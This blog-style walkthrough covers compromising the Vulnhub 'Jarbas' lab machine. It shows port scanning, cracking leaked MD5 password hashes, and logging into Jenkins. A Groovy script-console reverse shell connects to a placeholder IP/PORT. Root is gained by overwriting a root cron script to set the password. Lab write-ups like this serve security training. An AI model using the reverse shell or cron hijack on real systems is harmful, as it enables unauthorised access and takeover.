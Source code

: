 ```yaml
---
title: Vulnhub - Jarbas
description: My writeup on Jarbas box.
categories:
 - vulnhub
tags: vulnhub jenkins crackstation hash cronjob
---
```


![](https://www.devteam.space/wp-content/uploads/2018/03/jenkins.jpg)

Hi all, today i wanted to try something old from vulnhub so let's start!

You can find the machine there > [Jarbas](https://www.vulnhub.com/entry/jarbas-1,232/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.8
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-21 14:44 EEST
Nmap scan report for jarbas.zte.com.cn (192.168.1.8)
Host is up (0.000091s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:43:6E:8D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.01 seconds
$ nmap -p 22,80,3306,8080 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-21 14:44 EEST
Nmap scan report for jarbas.zte.com.cn (192.168.1.8)
Host is up (0.00047s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   MariaDB (unauthorized)
8080/tcp open  http    Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
MAC Address: 00:0C:29:43:6E:8D (VMware)
```

Let's enumerate port 80 first by running `gobuster` scan!

```
$ gobuster dir -q -u http://$ip/ -w $dir_medium -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/access.html (Status: 200)
```

`access.html` provide us some username with hashed passwords:

```
tiago:5978a63b4654c73c60fa24f836386d87
trindade:f463f63616cb3f1e81ce46b39f882fd5
eder:9b38e2b1e8b12f426b0d208a7ab6cb98
```

Let's use [crackstation](https://crackstation.net/) to crack them.

```
tiago:italia99
trindade:marianna
eder:vipsu
```

## jenkins reverse shell - shell as jenkins

Now on port 8080 runs `jenkins`, jenkins is an open-source automation server that automates technical tasks. After some tries `eder:vipsu` worked!

Now we can easily get code execution via the script console:

![](https://i.imgur.com/92vippk.png)

![](https://i.imgur.com/hHOgBEU.png)

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

We have shell:

```
$ nc -lvp 5555
listening on [any] 5555 ...
bash -i
bash-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$ ^Z
[1]+  Stopped                 nc -lvp 5555
$ stty raw -echo
$ fg
bash-4.2$ whoami
jenkins
```

## jenkins -> root

Now privesc is simple, let's check the cronjobs:

```
bash-4.2$ cat /etc/cron*
cat: /etc/cron.d: Is a directory
cat: /etc/cron.daily: Is a directory
cat: /etc/cron.deny: Permission denied
cat: /etc/cron.hourly: Is a directory
cat: /etc/cron.monthly: Is a directory
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed
*/5 * * * * root /etc/script/CleaningScript.sh >/dev/null 2>&1
```

The `/etc/script/CleaningScript.sh` runs as root every 5 minute, let's edit it to change root password.

```
bash-4.2$ > /etc/script/CleaningScript.sh
bash-4.2$ cat - > /etc/script/CleaningScript.sh
#!/bin/bash
echo 'root:pwned' | sudo chpasswd
^C
```

After some minutes..

```
bash-4.2$ su - root
Password: 
Last login: Mon Apr  2 18:33:39 -03 2018 from 192.168.114.1 on pts/0
Last failed login: Tue Jul 21 09:04:18 -03 2020 on pts/0
There was 1 failed login attempt since the last successful login.
[root@jarbas ~]# 
```

Let's read the flag:

```
[root@jarbas ~]# cat /root/flag.txt 
Hey!

Congratulations! You got it! I always knew you could do it!
This challenge was very easy, huh? =)

Thanks for appreciating this machine.

@tiagotvrs 
```

was fun.

